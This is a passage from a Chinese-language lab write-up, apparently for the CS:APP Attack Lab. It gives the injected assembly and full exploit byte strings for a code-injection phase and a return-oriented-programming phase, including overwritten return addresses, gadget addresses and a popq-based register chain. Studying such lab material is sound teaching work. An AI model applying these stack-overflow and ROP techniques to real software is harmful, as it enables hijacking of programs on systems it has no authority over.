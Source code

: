 ```text
最后可以使用 `ret`指令再次回调`touch3`
```
- 需要的汇编代码如下:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3     
```
- 最终的答案:
```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00
c3
```
- 对于 `%rsp` 指针的讨论可以参考之前对于`ret`指令的说明

## Return-Oriented Programming
### Level-2
- 需要实现和上面一个`Level-2`同样的效果,所以需要的汇编代码如下:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```
- 对于本系列的实验,由于不可以使用插入汇编代码字节级别实现的片段(也就是不可以跳转到自己实现的代码片段位置,只可以利用已知的代码来进行操作)
- 这一个`phase`的一个重点就是`popq`的用法
- 总结: `popq`

指令名称|取指|译码|执行|访存|写回|
---|---|---|---|---|---|
`popq`|取得`icode , func , ra`|`valueA = valueB = R[%rsp]`|`valueE = valueB + 8`|取得`M[valueA] = valueM`(也就是取得原来的栈顶元素)|`R[ra] = valueM`,`R[%rsp] = valueE`|

- 所以利用`popq`指令可以进行栈顶元素和某一个寄存器中元素的互换,所以可以利用这一个性质获取到`cookie`(也就是把`cookie`存储在特定的位置,之后利用`popq`把元素赋值给`cookie`即可)(赋值就是原来的值)

- 所以步骤分为如下几步:
  - `popq %rax`
  - `mov %rax,%rdi`
  - `ret`
- 最终答案为(注意这一个过程中`%rsp`的变化):
```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
### Level-3